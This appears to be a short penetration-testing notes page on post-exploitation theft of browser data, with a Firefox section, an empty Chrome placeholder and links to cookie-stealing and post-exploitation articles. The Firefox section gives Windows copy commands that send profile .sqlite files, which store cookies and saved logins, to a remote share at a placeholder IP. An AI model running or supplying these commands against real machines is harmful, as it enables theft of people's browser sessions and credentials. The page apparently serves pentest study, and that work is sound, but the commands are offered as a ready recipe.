 # 01 - Manual

## 1.1 - Firefox

### 1.1.1 - Profiles

```
C:\> copy /c /s %appdata%\Mozilla\Firefox\Profiles*.sqlite \\<IP>\<share_name>\

C:\> copy /c /s %appdata%\Mozilla\Firefox\Profiles\*.sqlite \\<IP>\<share_name>\
```

## 1.2 - Google Chrome

TODO: Fill this information

---
## References

- [Retrieving Data From Thunderbird and Firefox](https://thevivi.net/blog/pentesting/2020-09-06-retrieving-data-from-thunderbird-and-firefox/)

- [FareedFauzi Resources Windows Post Exploitation](https://fareedfauzi.gitbook.io/oscp-notes/windows-post-exploitation/resources-windows-post-exploitation)

- [Mango PDF Zone Stealing Chrome Cookies Without a Password](https://mango.pdf.zone/stealing-chrome-cookies-without-a-password)